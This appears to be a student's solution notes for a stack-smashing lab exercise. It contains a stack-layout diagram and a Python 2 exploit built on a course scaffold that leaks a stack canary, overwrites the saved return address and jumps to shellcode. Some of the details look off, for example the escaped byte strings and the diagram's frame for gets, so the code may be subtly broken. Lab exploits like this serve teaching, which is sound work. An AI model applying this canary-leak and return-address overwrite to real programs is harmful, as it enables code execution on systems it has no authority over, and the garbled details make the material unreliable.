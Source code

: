 ### EXPLOIT PARTS:

#### Stack Diagram :
           [4] RIP of main                                
           [4] SFP of main                                
           [4] canary
           [n] compiler padding unknown bytes n
           *now in dehexify*
           [4] RIP of dehexify
           [4] SFP of dehexify
           [4] canary
           [1] int j
           [1] int i
           [8] struct c
           [24] char buffer
           [24] char answer
           [m] compiler padding unknown bytes m
           *now in gets(c.buffer)*
           [4] RIP of GETS
           [4] SFP of GETS
           [4] canary
           [1] extra null byte GETS
           [24] gets(c.buffer) //returns 24 byte word
       
#### Exploit :
   
     #!/usr/bin/env python2
     from scaffold import *
     # HINT: the last line of your exploit should look something like:
     #   p.send('A' * m + canary + 'B' * n + rip + SHELLCODE + '\n')
     # where m, canary, n and rip are all values you must determine
     # and you might need to add a '\x00' somewhere
     ### YOUR CODE STARTS HERE ###

     p.send('A'*8 + '\\x'*3 + '\n')
     canary = p.recv(20)[16:19]
     #print("Canary=" + canary)
     m = 14
     n = 12
     rip = "\\x50\\xfb\\xff\\xbf"

     p.send('A'*m + canary + 'B'*n + rip + SHELLCODE + '\n')
